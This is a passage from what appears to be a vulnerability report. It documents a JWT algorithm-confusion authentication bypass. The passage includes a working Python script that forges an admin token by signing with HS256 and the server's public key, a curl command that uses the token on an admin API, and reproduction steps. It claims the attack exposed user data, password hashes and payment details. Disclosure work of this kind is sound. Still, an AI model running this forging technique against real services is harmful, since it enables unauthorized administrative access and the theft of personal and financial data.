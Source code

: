 ### Step 2: Create Malicious Token
```python
import jwt
import time

# Read public key
with open('public.pem', 'r') as f:
    public_key = f.read()

# Create admin token
payload = {
    "sub": "1",
    "role": "admin",
    "exp": int(time.time()) + 86400
}

# Sign with HS256 using public key as secret
token = jwt.encode(payload, public_key, algorithm='HS256')
print(f"Malicious token: {token}")
```

### Step 3: Access Admin Panel
```bash
curl -H "Authorization: Bearer [MALICIOUS_TOKEN]" https://target.com/api/admin/users
```

### Result
Successfully accessed admin panel and retrieved all user data including passwords hashes, PII, and payment information.

## Impact
- **Complete authentication bypass** for any user including administrators
- **Access to all user data** (10M+ records based on user ID sequences)
- **Ability to modify any data** including financial transactions
- **Full administrative control** over the application
- **Potential for complete business disruption**

## Reproduction Steps
1. Navigate to https://target.com
2. Intercept any request with Burp Suite
3. Add header: `Authorization: Bearer [MALICIOUS_TOKEN_HERE]`
4. Access any protected endpoint including `/api/admin/*`
5. Observe successful authentication bypass

## Evidence
[Screenshots showing admin access]
[Video demonstration: https://youtube.com/xyz]
[Sample of exposed data - redacted for privacy]
